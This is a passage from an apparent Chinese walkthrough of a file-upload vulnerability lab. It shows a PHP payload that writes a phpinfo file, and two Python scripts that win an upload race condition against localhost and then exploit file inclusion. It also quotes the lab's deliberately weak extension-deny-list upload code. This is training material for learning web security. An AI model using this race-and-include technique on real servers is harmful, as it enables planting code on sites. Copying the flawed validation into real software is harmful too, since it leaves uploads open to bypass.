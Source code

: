     <?php fputs(fopen('phpinfo.php','w'),'<?php phpinfo(); ?>');?>

编写脚本1.py

    import requests
    url = "http://127.0.0.1/upload/shell_phpinfo.jpg"
    while True:
        html = requests.get(url)
        if html.status_code == 200:
            print("OK")
            break
        else:
            print("NO")

同Pass-18，运行1.py,bp重放攻击，可以访问竞争到shell_phpinfo.jpg文件

再文件包含利用，编写脚本2.py

    import requests
    url = "http://127.0.0.1/include.php?file=./upload/shell_phpinfo.jpg"
    while True:
        html = requests.get(url)
        if 'phpinfo()' in html.text:
            print("OK")
            break
        else:
            print("NO")

运行2.py,bp重放攻击，生成了phpinfo.php

## Pass-19 /.绕过

源码

    $is_upload = false;
    $msg = null;
    if (isset($_POST['submit'])) {
        if (file_exists(UPLOAD_PATH)) {
            $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

            $file_name = $_POST['save_name'];
            $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

            if(!in_array($file_ext,$deny_ext)) {
                $temp_file = $_FILES['upload_file']['tmp_name'];
                $img_path = UPLOAD_PATH . '/' .$file_name;
                if (move_uploaded_file($temp_file, $img_path)) { 
                    $is_upload = true;
                }else{
                    $msg = '上传出错！';
                }
            }else{
                $msg = '禁止保存为该类型文件！';
            }
